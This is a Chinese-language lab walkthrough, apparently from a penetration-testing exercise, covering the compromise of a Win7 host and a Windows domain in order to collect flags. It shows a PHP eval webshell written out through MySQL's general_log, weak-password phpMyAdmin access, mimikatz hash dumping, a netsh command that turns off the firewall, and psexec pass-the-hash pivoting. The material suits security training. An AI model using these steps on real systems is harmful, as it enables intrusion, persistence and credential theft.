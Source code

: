 ## win7

首先主机发现

![image-20200618150218777](wp-photo/image-20200618150218777.png)

确定了靶机的ip：172.20.10.151

直接访问，确定就是这个ip了

![image-20200618150306095](wp-photo/image-20200618150306095.png)

扫一下路径，有phpmyadmin

![image-20200618150515613](wp-photo/image-20200618150515613.png)

进去是phpMyadmin登录界面，随手来一个弱口令root root，成功登录

![image-20200618151133415](wp-photo/image-20200618151133415.png)

然后就是用phpMyadmin的洞去getshell，常见的是into outfile导出木马，正好给了phpinfo，有绝对路径，尝试一波

![image-20200618151348051](wp-photo/image-20200618151348051.png)

报错，说明这个限制了写文件

![image-20200618151451783](wp-photo/image-20200618151451783.png)

尝试记录日志去getshell

```
SET GLOBAL general_log='on'
SET GLOBAL general_log_file='C:/phpStudy/WWW/shell.php'
SELECT '<?php eval($_POST["cmd"]);?>'
```

成功写入

![image-20200618152131490](wp-photo/image-20200618152131490.png)

然后蚁剑链接，成功getshell

![image-20200618152242657](wp-photo/image-20200618152242657.png)

随便翻翻，找到了第一个flag

![image-20200618154937704](wp-photo/image-20200618154937704.png)

然后上msf的马，准备内网渗透

![image-20200618153322320](wp-photo/image-20200618153322320.png)

是64位系统，找个系统进程切过去

![image-20200618170913083](wp-photo/image-20200618170913083.png)

![image-20200618170100068](wp-photo/image-20200618170100068.png)

查看一下权限，已经是system权限了，直接load mimikatz

![image-20200618170227092](wp-photo/image-20200618170227092.png)

查看密码，嗯，应该是没恢复镜像的锅，抓不到明文密码，只能抓到hash

![image-20200618171135461](wp-photo/image-20200618171135461.png)

新建一个用户吧，然后加到administrator里

![image-20200618172126041](wp-photo/image-20200618172126041.png)

尝试登录3389，连接失败，关一下防火墙

```
netsh advfirewall set allprofiles state off
```

然后再测试3389是否通，发现通了

```
netstat -ano | find "3389"
```

![image-20200618172339729](wp-photo/image-20200618172339729.png)

rdesktop 连一下，输入账号密码就可以成功进去了

![image-20200618172801411](wp-photo/image-20200618172801411.png)

到此第一个win7应该是结束了

## 内网渗透

看一下域，有一个GOD域

![image-20200618155744625](wp-photo/image-20200618155744625.png)

添加路由，然后扫网段

![image-20200618161951680](wp-photo/image-20200618161951680.png)

跳板机的ip是192.168.52.143，剩下两个的ip 192.168.52.138 和 192.168.52.141 应该是内网机器的了

先上个代理

![image-20200618174058420](wp-photo/image-20200618174058420.png)

改一下proxychains，文件路径/etc/proxychains.conf

![image-20200618174231356](wp-photo/image-20200618174231356.png)

nmap开扫，没扫出来，nmap关闭（后来发现socks4a就没挂上hhh

试一下msf自己的扫描，扫出来一些端口

![image-20200618181344850](wp-photo/image-20200618181344850.png)

同理扫描192.168.52.138，发现也开放了445端口

经过漫长的尝试，发现这个可以打138的机器，直接传递hash（参考https://xz.aliyun.com/t/6600

```
exploit/windows/smb/psexec
```

配置好各种参数，如下

![image-20200618205706420](wp-photo/image-20200618205706420.png)

运行，成功获取shell

![image-20200618205745800](wp-photo/image-20200618205745800.png)

开启远程桌面

![image-20200618210047661](wp-photo/image-20200618210047661.png)

抓hash

![image-20200618210300469](wp-photo/image-20200618210300469.png)

使用smart_hash，可以抓到域内全部hash，应该是域控了

![image-20200618210738851](wp-photo/image-20200618210738851.png)

然后先找一下flag，在C:\Users\administrator\Desktop\flag3.png，下载

![image-20200618212143824](wp-photo/image-20200618212143824.png)

查看一下，嗯，果然是域控

![image-20200618212215515](wp-photo/image-20200618212215515.png)

挂一下代理，这里使用ew，主机

![image-20200618223738092](wp-photo/image-20200618223738092.png)

登录远程桌面，由于挂代理会比较慢，等一会就好了

![image-20200618223839494](wp-photo/image-20200618223839494.png)

然后去看剩下的域内主机，同样的操作，就很简单了

![image-20200618225438608](wp-photo/image-20200618225438608.png)

看一下flag，漫长的寻找，在C:\Documents and Settings\Administrator.GOD\Desktop\flag2.png里

![image-20200618231215772](wp-photo/image-20200618231215772.png)

添加用户，远程连接，这都常规操作了（这里懒了登录的实体机hhh

![image-20200618230626608](wp-photo/image-20200618230626608.png)

